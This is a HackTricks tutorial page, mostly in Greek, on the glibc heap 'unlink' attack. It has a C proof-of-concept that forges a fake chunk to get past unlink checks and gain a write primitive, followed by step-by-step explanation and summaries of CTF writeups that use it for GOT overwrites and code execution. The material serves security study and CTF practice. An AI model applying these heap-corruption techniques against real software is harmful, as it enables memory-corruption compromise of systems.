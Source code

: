 # Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Όταν ανακαλύφθηκε αυτή η επίθεση, κυρίως επέτρεπε ένα WWW (Write What Where), ωστόσο, προστέθηκαν κάποιες **έλεγχοι** που καθιστούν την νέα έκδοση της επίθεσης πιο ενδιαφέρουσα και πιο περίπλοκη και **άχρηστη**.

### Code Example:

<details>

<summary>Code</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Η επίθεση δεν λειτουργεί αν χρησιμοποιούνται tcaches (μετά την 2.26)

### Στόχος

Αυτή η επίθεση επιτρέπει να **αλλάξει ένας δείκτης σε ένα chunk ώστε να δείχνει 3 διευθύνσεις πριν από τον εαυτό του**. Αν αυτή η νέα τοποθεσία (περίγυρος της τοποθεσίας όπου βρισκόταν ο δείκτης) έχει ενδιαφέροντα στοιχεία, όπως άλλες ελεγχόμενες κατανομές / στοίβα..., είναι δυνατόν να διαβαστούν/επικαλυφθούν για να προκληθεί μεγαλύτερη ζημιά.

* Αν αυτός ο δείκτης βρισκόταν στη στοίβα, επειδή τώρα δείχνει 3 διευθύνσεις πριν από τον εαυτό του και ο χρήστης μπορεί δυνητικά να το διαβάσει και να το τροποποιήσει, θα είναι δυνατό να διαρρεύσει ευαίσθητες πληροφορίες από τη στοίβα ή ακόμα και να τροποποιήσει τη διεύθυνση επιστροφής (ίσως) χωρίς να αγγίξει το canary.
* Σε παραδείγματα CTF, αυτός ο δείκτης βρίσκεται σε έναν πίνακα δεικτών σε άλλες κατανομές, επομένως, κάνοντάς τον να δείχνει 3 διευθύνσεις πριν και έχοντας τη δυνατότητα να το διαβάσει και να το γράψει, είναι δυνατό να κάνει τους άλλους δείκτες να δείχνουν σε άλλες διευθύνσεις.\
Καθώς ο χρήστης μπορεί δυνητικά να διαβάσει/γράψει και τις άλλες κατανομές, μπορεί να διαρρεύσει πληροφορίες ή να επικαλύψει νέες διευθύνσεις σε αυθαίρετες τοποθεσίες (όπως στο GOT).

### Απαιτήσεις

* Κάποιος έλεγχος σε μνήμη (π.χ. στοίβα) για να δημιουργήσει μερικά chunks δίνοντας τιμές σε μερικά από τα χαρακτηριστικά.
* Διαρροή από τη στοίβα για να ρυθμιστούν οι δείκτες του ψεύτικου chunk.

### Επίθεση

* Υπάρχουν μερικά chunks (chunk1 και chunk2)
* Ο επιτιθέμενος ελέγχει το περιεχόμενο του chunk1 και τις κεφαλίδες του chunk2.
* Στο chunk1 ο επιτιθέμενος δημιουργεί τη δομή ενός ψεύτικου chunk:
* Για να παρακάμψει τις προστασίες, διασφαλίζει ότι το πεδίο `size` είναι σωστό για να αποφευχθεί το σφάλμα: `corrupted size vs. prev_size while consolidating`
* και τα πεδία `fd` και `bk` του ψεύτικου chunk δείχνουν εκεί όπου αποθηκεύεται ο δείκτης του chunk1 με offsets -3 και -2 αντίστοιχα, έτσι ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν σε θέση στη μνήμη (στοίβα) όπου βρίσκεται η πραγματική διεύθυνση του chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Οι κεφαλίδες του chunk2 τροποποιούνται για να υποδείξουν ότι το προηγούμενο chunk δεν χρησιμοποιείται και ότι το μέγεθος είναι το μέγεθος του ψεύτικου chunk που περιέχεται.
* Όταν απελευθερωθεί το δεύτερο chunk, τότε αυτό το ψεύτικο chunk αποσυνδέεται συμβαίνοντας:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Προηγουμένως είχε γίνει ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν στο ίδιο μέρος (την τοποθεσία στη στοίβα όπου αποθηκεύτηκε το `chunk1`, οπότε ήταν μια έγκυρη συνδεδεμένη λίστα). Καθώς **και οι δύο δείχνουν στην ίδια τοποθεσία**, μόνο η τελευταία (`fake_chunk->bk->fd = fake_chunk->fd`) θα έχει **επίδραση**.
* Αυτό θα **επικαλύψει τον δείκτη στο chunk1 στη στοίβα με τη διεύθυνση (ή τα bytes) που αποθηκεύονται 3 διευθύνσεις πριν στη στοίβα**.
* Επομένως, αν ένας επιτιθέμενος μπορούσε να ελέγξει ξανά το περιεχόμενο του chunk1, θα είναι σε θέση να **γράψει μέσα στη στοίβα** έχοντας τη δυνατότητα να επικαλύψει τη διεύθυνση επιστροφής παρακάμπτοντας το canary και να τροποποιήσει τις τιμές και τους δείκτες των τοπικών μεταβλητών. Ακόμα και τροποποιώντας ξανά τη διεύθυνση του chunk1 που αποθηκεύεται στη στοίβα σε μια διαφορετική τοποθεσία όπου αν ο επιτιθέμενος μπορούσε να ελέγξει ξανά το περιεχόμενο του chunk1 θα μπορούσε να γράψει οπουδήποτε.
* Σημειώστε ότι αυτό ήταν δυνατό επειδή οι **διευθύνσεις αποθηκεύονται στη στοίβα**. Ο κίνδυνος και η εκμετάλλευση μπορεί να εξαρτώνται από **πού αποθηκεύονται οι διευθύνσεις του ψεύτικου chunk**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Αναφορές

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Αν και θα ήταν περίεργο να βρείτε μια επίθεση unlink ακόμα και σε ένα CTF, εδώ έχετε μερικά writeups όπου χρησιμοποιήθηκε αυτή η επίθεση:
* Παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Σε αυτό το παράδειγμα, αντί για τη στοίβα υπάρχει ένας πίνακας διευθύνσεων malloc'ed. Η επίθεση unlink εκτελείται για να μπορέσει να κατανεμηθεί ένα chunk εδώ, επομένως να μπορεί να ελέγξει τους δείκτες του πίνακα των malloc'ed διευθύνσεων. Στη συνέχεια, υπάρχει μια άλλη λειτουργία που επιτρέπει να τροποποιηθεί το περιεχόμενο των chunks σε αυτές τις διευθύνσεις, που επιτρέπει να δείχνουν διευθύνσεις στο GOT, να τροποποιούν τις διευθύνσεις συναρτήσεων για να πάρουν διαρροές και RCE.
* Ένα άλλο παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Ακριβώς όπως στο προηγούμενο παράδειγμα, υπάρχει ένας πίνακας διευθύνσεων κατανομών. Είναι δυνατό να εκτελεστεί μια επίθεση unlink για να γίνει η διεύθυνση στην πρώτη κατανομή να δείχνει μερικές θέσεις πριν από την αρχή του πίνακα και να επικαλύψει αυτή την κατανομή στη νέα θέση. Επομένως, είναι δυνατό να επικαλυφθούν οι δείκτες άλλων κατανομών ώστε να δείχνουν στο GOT του atoi, να το εκτυπώσουν για να πάρουν μια διαρροή libc και στη συνέχεια να επικαλύψουν το GOT του atoi με τη διεύθυνση σε ένα one gadget.
* Παράδειγμα CTF με προσαρμοσμένες συναρτήσεις malloc και free που εκμεταλλεύονται μια ευπάθεια πολύ παρόμοια με την επίθεση unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Υπάρχει μια υπερχείλιση που επιτρέπει τον έλεγχο των δεικτών FD και BK της προσαρμοσμένης malloc που θα είναι (προσαρμοσμένη) απελευθερωμένη. Επιπλέον, η heap έχει το exec bit, οπότε είναι δυνατό να διαρρεύσει μια διεύθυνση heap και να δείξει μια συνάρτηση από το GOT σε ένα heap chunk με shellcode για εκτέλεση.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Δείτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
